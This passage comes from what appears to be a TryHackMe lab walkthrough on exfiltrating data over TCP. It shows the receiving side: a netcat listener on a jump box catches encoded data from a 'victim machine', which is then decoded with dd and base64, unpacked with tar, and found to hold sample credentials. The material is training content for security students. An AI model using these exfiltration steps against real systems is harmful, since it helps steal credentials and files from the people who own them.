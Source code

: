 Once we hit enter, we should receive the encoded data in theÂ /tmp/Â directory.

Checking the received data on the JumpBoxÂ   

```markup
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 192.168.0.101 received!

thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

On the JumpBox, we need to convert the received data back to its original status. We will be using theÂ ddÂ tool to convert it back.Â 

Restoring the tar file  

```markup
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

The following is the explanation of the previous command:

1. We used theÂ ddÂ command to convert the received file toÂ ASCIIÂ Â representation. We used theÂ task4-creds.dataÂ as input to theÂ ddÂ command.Â 
2. The output of theÂ ddÂ command will be passed to the base64 to decode it using theÂ -dÂ argument.
3. Finally, we save the output in theÂ task4-creds.tarÂ Â file.

Next, we need to use theÂ tarÂ command to unarchive theÂ task4-creds.tarÂ file and check the content as follows,

Uncompressing the tar file  

```markup
thm@jump-box$ tar xvf task4-creds.tar
task4/ 
task4/creds.txt
```

Let's break down the previous commandÂ and explain it:

1. We used theÂ tarÂ command to unarchive the file with theÂ xvfÂ arguments.
2. TheÂ xÂ isÂ for extracting the tar file, theÂ vÂ for verbosely listing files, and theÂ fÂ is forÂ using an archive file.

Now let's confirm that we have the same data from the victim machine.

Confirming the received data  

```markup
thm@jump-box$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```
